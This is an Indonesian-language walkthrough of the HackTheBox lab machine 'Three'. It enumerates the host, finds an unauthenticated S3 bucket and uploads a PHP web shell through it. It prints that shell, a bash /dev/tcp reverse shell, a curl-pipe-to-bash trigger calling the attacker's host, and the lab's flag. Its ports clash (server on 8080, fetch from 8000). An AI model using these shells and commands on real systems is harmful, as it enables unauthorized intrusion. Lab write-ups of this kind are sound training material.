

Three merupakan mesin Tier 1 dari seri starting pooint pada platform HackTheBox. Untuk menyelesaikan tantangan ini, saya menggunakan beberapa tools yaitu: `Nmap`, `Gobuster`, dan `awscli`

## Reconnaissance

Hal pertama yanng harus kita lakukan adalah melakukan enumerasi open port dan running service pada mesin dengan menggunakan `nmap`.

```bash
└─$ sudo nmap -sV -sC -p- -T4 10.129.121.19                                   
[sudo] password for w1thre: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-10 13:12 WIB
Stats: 0:03:54 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 50.75% done; ETC: 13:20 (0:03:33 remaining)
Nmap scan report for 10.129.121.19
Host is up (0.26s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Toppers
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 836.42 seconds
```

### Analyze Scan Result

- Port 22 menjalankan service `OpenSSH` 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
- Port 80 menjalankan service http dengan web server `Apache` httpd 2.4.29 ((Ubuntu))

### Checking the Website

Kita coba check hal yang menarik dalam website ini. Terdapat domain untuk website ini yang nanti nya kita bakal tambahkan ke `/etc/hosts`



Disini langsung aja kita tambahkan domain tersebut ke `/etc/host` kita

```bash
sudo echo "10.129.121.19 thetoppers.htb" | sudo tee -a /etc/hosts
```

Setelah melakukan explorasi terhadap website, tidak ditemukan hal yang menarik. Maka dari itu kita akan melakukan sub domain enumeration.

### Subdomain Enumeration using Gobuster

Disini kita akan melakukan enumerasi sub domain untuk melihat apakah ada sub domain dalam website ini menggunakan tools `gobuster`.

```bash
└─$ gobuster vhost --append-domain -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://thetoppers.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb Status: 404 [Size: 21]
Found: gc._msdcs.thetoppers.htb Status: 400 [Size: 306]
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
```

Terdapat subdomain `s3` pada domain tersebut. Kita harus menambahkannya kembali ke `/etc/hosts` file kita agar website tersebut bisa diakses.

```bash
sudo echo "10.129.121.19 s3.thetoppers.htb" | sudo tee -a /etc/hosts
```

Ketika dicheck akan menampilkan semacam json status

```bash
{"status": "running"}
```

Disini subdomain `s3` merupakan subdomain untuk `Amazon S3 Bucket`. Kita bisa menggunakan tools `awscli` untuk melakukan interaksi ke service s3 ini. Untuk melakukan instalasi awscli cukup ikuti langkah dibawah ini:

```bash
sudo apt install awscli
```

Selanjutnya lakukan konfigurasi awal seperti command dibawah ini:

```bash
└─$ aws configure          
AWS Access Key ID: test
AWS Secret Access Key: test
Default region name : test
Default output format : test
```

## Foothold

Untuk melakukan  pengecekan isi dari S3 ini kita bisa menggunakan command berikut: 

```bash
└─$ aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb --no-sign-request
                           PRE images/
2025-02-10 13:11:29          0 .htaccess
2025-02-10 13:11:29      11952 index.php
```

| **Options** | **Description** |
| --- | --- |
| aws | AWS CLI command |
| —endpoint= | Digunakan untuk menetapkan endpoint service  |
| s3 | Untuk menentukan jenis service dari aws |
| ls | Untuk melihat isi file yang ada di S3 Bucket |
| s3://thetoppers.htb | Lokasi S3 Bucket |
| —no-sign-request | Untuk menjalankan perintah tanpa melakukan proses sign request |

Disini kita bisa coba melakukan upload web shell yang nantinya kita bakal gunakan untuk melakukan reverse shell juga. Buat `shell.php` untuk web shell nya seperti berikut:

```php
<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>
```

Disini saya menggunakan web shell dari [revshells.com](https://www.revshells.com/) . Untuk melakukan upload web shell tersebut ke S3 Bucket kita cukup menjalankan command berikut:

```bash
└─$ aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb --no-sign-request
upload: ./shell.php to s3://thetoppers.htb/shell.php
```

Lalu kita bisa akses web shell tersebut pada url seperti berikut:

```bash
http://thetoppers.htb/shell.php?cmd=ls
```


Disini kita sudah berhasil menjalankan web shellnya. Langkah selanjutnya kita harus mendapatkan reverse shell.

### Reverse Shell

Buat file `shell.sh` yang nantinya akan kita gunakan untuk reverse shell.

```bash
bash -i >& /dev/tcp/10.10.14.13/1337 0>&1
```

*Catatan: Untuk ip disesuaikan pada ip tun0 (VPN HTB), port dapat disesuaikan dan harus sama dengan netcat nantinya

Selanjutnya jalankan `netcat` untuk listening port

```bash
nc -lnvp 1337
```

Kita harus menjalankan web server lokal dengan menggunakan python web server seperti berikut, dengan tujuan mesin akan melakukan GET request ke host kita untuk menjalankan script [shell.sh](http://shell.sh) yang sudah dibuat tadi:

```bash
python3 -m http.server 8080
```

Setelah itu jalankan web shell dengan command berikut untuk melakukan trigger terhadap reverse shell kita

```bash
http://thetoppers.htb/shell.php?cmd=curl%2010.10.14.13:8000/shell.sh|bash
```

Ketika berhasil kita akan mendapatkan reverse shell seperti berikut:

```php
└─$ nc -lnvp 1337 
listening on [any] 1337 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.121.19] 51960
bash: cannot set terminal process group (1510): Inappropriate ioctl for device
bash: no job control in this shell
www-data@three:/var/www/html$
```

## Flag

Kita bisa mendapatkan flagnya di `/var/www`

```php
www-data@three:/var/www/html$ cd .. 
cd ..
www-data@three:/var/www$ ls
ls
flag.txt
html
www-data@three:/var/www$ cat flag.txt
cat flag.txt
a980d99281a28d638ac68b9bf9453c2b
```

## Useful Links

[https://thinkport.digital/wp-content/uploads/2023/11/AWS_Cheatsheet.pdf](https://thinkport.digital/wp-content/uploads/2023/11/AWS_Cheatsheet.pdf)